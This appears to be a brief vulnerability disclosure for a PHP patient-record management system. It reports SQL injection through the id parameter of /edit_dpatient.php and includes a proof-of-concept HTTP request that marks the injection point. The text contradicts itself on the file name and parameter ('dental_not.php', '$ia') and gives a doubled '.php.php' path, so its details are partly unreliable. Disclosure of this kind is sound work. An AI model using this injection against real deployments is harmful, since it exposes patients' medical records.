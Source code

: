 # patient-record-management-system-in-php has sql injection in /edit_dpatient.php

## supplier 

https://code-projects.org/patient-record-management-system-in-php-with-source-code/#google_vignette

## Vulnerability parameter

/edit_dpatient.php

## describe

An unrestricted SQL injection attack exists in patient-record-management-system-in-php in dental_not.php. The parameters that can be controlled are as follows: $ia. This function executes the id parameter into the SQL statement without any restrictions. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

**Code analysis**    

When the value of $id parameter is obtained in /edit_dpatient.php , it will be concatenated into SQL statements and executed, which has a SQL injection vulnerability. 

![Image](https://github.com/user-attachments/assets/bcf9bc0b-710a-43b7-93dd-c43666ad4088)



## POC

```
GET /edit_dpatient.php.php?id=1* HTTP/1.1
Host: healthcarepatientrecordmanagementsystem
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: PHPSESSID=apub8ggoc8777fmi1n9sbu6ca1
Upgrade-Insecure-Requests: 1
Priority: u=0, i


```

**Result**

![image-20241226013405312](https://github.com/user-attachments/assets/fd4a6d5f-7c7d-418d-8db1-2bbd2d5bc9a0)
